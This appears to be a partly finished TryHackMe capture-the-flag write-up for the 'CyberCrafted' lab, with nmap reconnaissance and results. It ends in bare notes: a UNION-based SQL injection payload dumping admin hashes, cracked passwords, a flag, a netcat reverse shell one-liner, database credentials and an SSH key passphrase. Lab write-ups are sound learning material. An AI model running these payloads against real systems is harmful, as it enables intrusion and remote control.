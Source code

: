 # #1 Introduction
<img width="650" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/8f965ab0-677e-4db0-9741-002c2469d6e2">

# #2 Nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx cybercrafted.thm
```

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- cybercrafted.thm
```

we got these open ports
```bash
PORT      STATE SERVICE   VERSION
22/tcp    open  ssh       OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http      Apache httpd 2.4.29 ((Ubuntu))
25565/tcp open  minecraft Minecraft 1.7.2 (Protocol: 127, Message: ck00r lcCyberCraftedr ck00rrck00r e-TryHackMe-r  ck00r, Users: 0/1)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

test' UNION SELECT 1,id,user,hash FROM admin;#

1 	xXUltimateCreeperXx 	88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01
4 	web_flag 	THM{bbe315906038c3a62d9b195001f75008}

xXUltimateCreeperXx:diamond123456789



rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.72.209 6666 >/tmp/f


$db_host = "localhost";
$db_user = "root";
$db_pwd = "";
$db_name = "webapp";


ssh key password: creepin2006
